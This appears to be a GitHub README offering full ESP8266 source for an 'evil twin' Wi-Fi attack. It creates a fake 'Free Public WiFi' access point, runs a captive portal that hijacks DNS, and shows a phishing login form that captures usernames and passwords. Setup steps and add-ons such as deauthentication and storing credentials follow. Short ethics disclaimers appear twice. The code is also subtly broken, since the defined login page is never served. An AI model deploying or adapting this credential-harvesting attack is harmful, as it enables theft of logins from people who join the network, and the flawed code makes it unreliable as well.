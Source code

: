 # Evil-Twin_Node_MCU



```bash
#include <ESP8266WiFi.h>
#include <DNSServer.h>
#include <ESP8266WebServer.h>

// Configuration
const char* AP_SSID = "Free Public WiFi";  // Fake AP name
const char* REDIRECT_URL = "http://login.required";  // Phishing URL

const byte DNS_PORT = 53;
IPAddress apIP(192, 168, 1, 1);
DNSServer dnsServer;
ESP8266WebServer webServer(80);

// HTML for captive portal
const char* loginPage = 
R"rawliteral(
<!DOCTYPE html>
<html>
<head>
<title>Network Login Required</title>
<style>
  body { font-family: Arial, sans-serif; background: #f0f0f0; }
  .container { background: white; width: 300px; margin: 100px auto; padding: 20px; border-radius: 5px; box-shadow: 0 0 10px rgba(0,0,0,0.1); }
  input { width: 100%; padding: 10px; margin: 8px 0; box-sizing: border-box; }
  button { background: #4CAF50; color: white; padding: 14px 20px; border: none; cursor: pointer; width: 100%; }
</style>
</head>
<body>
<div class="container">
  <h2>Network Login</h2>
  <p>Enter credentials to access Internet</p>
  <form action="/login" method="POST">
    <input type="text" name="username" placeholder="Username" required>
    <input type="password" name="password" placeholder="Password" required>
    <button type="submit">Login</button>
  </form>
</div>
</body>
</html>
)rawliteral";

void setup() {
  Serial.begin(115200);
  
  // Configure AP
  WiFi.mode(WIFI_AP);
  WiFi.softAPConfig(apIP, apIP, IPAddress(255, 255, 255, 0));
  WiFi.softAP(AP_SSID);

  // Start DNS server (captive portal)
  dnsServer.start(DNS_PORT, "*", apIP);

  // Web server handlers
  webServer.on("/", handleRoot);
  webServer.on("/login", handleLogin);
  webServer.onNotFound(handleRoot);  // Redirect all requests
  webServer.begin();

  Serial.println("\nEvil Twin AP Running!");
  Serial.print("SSID: ");
  Serial.println(AP_SSID);
  Serial.print("IP: ");
  Serial.println(apIP);
}

void loop() {
  dnsServer.processNextRequest();
  webServer.handleClient();
}

// Handle captive portal redirect
void handleRoot() {
  webServer.sendHeader("Location", REDIRECT_URL, true);
  webServer.send(302, "text/plain", "");
}

// Process captured credentials
void handleLogin() {
  String username = webServer.arg("username");
  String password = webServer.arg("password");
  
  Serial.println("\n[+] Credentials Captured!");
  Serial.print("Username: ");
  Serial.println(username);
  Serial.print("Password: ");
  Serial.println(password);

  // Redirect after capture
  webServer.sendHeader("Location", "http://example.com", true);
  webServer.send(302, "text/plain", "Login Successful");
}

// Not needed but included for clarity
void handleNotFound() {
  handleRoot();
}
```

> ### ⚠️ Note
>  - You can modify certain parameters in the code to fit your requirements:
>  - **Redirected URL:** Change the URL users are sent to after submitting credentials to match your test scenario.
>  - **SSID:** Set your own Wi-Fi network name to attract targets or for testing purposes.
>  - **DNS:** Adjust DNS settings if you want to redirect to a different captive portal or server.
>  - Make sure to update these variables in the source code before uploading to your NodeMCU device.

>> ## Ethical Considerations
> - **Legal Compliance:** Only test on your own networks
> - **Disclosure:** Add disclaimer to login page in real tests
> - **Data Handling:** Never store captured credentials permanently
> - **Permissions:** Requires written consent for penetration testing

## Key Components

**Fake Access Point:**
- Creates Wi-Fi network with specified SSID
- Uses IP 192.168.1.1 for gateway

**Captive Portal:**
- DNS server redirects all domains to ESP
- Any HTTP request shows login page
- Professional-looking login form

**Credential Harvesting:**
- Captures username/password via POST
- Prints credentials to serial monitor
- Shows "success" redirect after submission

## Setup Instructions
- Upload code to NodeMCU
- Open Serial Monitor (115200 baud)
- Connect device to Free Public WiFi
- Attempt to browse any website
- Enter test credentials in login page
- Observe credentials in Serial Monitor

## Ethical Considerations
- **Legal Compliance:** Only test on your own networks
- **Disclosure:** Add disclaimer to login page in real tests
- **Data Handling:** Never store captured credentials permanently
- **Permissions:** Requires written consent for penetration testing

## Enhancements (Optional)
- Add EAP/TLS encryption simulation
- Implement WiFi deauthentication (requires external hardware)
- Add SSL/TLS (requires HTTPS library)
- Store credentials to SPIFFS/SD card
